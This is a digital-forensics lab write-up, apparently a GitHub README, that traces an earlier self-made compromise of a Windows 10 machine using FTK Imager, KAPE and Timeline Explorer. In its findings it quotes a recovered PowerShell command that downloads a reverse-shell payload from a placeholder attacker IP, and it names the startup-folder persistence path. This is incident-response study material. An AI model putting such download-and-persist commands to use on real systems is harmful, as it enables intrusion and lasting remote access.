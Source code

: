 ## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier [Windows 10 exploitation](https://github.com/muhammadrayyann/red-team-windows-exploitation.git), where I compromised a Windows machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing a disk image, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity, including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## 1. ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:

| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |

I used FTK Imager to create a disk image `.ad1`, consolidating these artifacts, ensuring proper evidence integrity.

---

## 2. EVIDENCE TRANSFER
I securely copied the `.ad1` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## 3. EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.ad1` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## 4. PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.

Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## 5. MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## 6. FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:

- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.

- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.

- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    
    ```batch
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.

- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## 7. BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.

This provided a clear chronological picture of the attack.

---

## SUMMARY
Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, the attacker's IP, and a probable timeline of compromise.

---

## PROJECT SNIPPETS:
![1](/Snippets/1.1.png)

![1.1](/Snippets/1.png)

![2](/Snippets/2.png)

![3](/Snippets/3.png)

![4](/Snippets/4.png)

![5](/Snippets/5.png)

![6](/Snippets/6.png)

![7](/Snippets/7.png)

![8](/Snippets/8.png)

![9](/Snippets/9.png)

![10](/Snippets/10.png)

![11](/Snippets/11.png)

![12](/Snippets/12.png)

---

> ⚠️ Disclaimer:
> 
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.
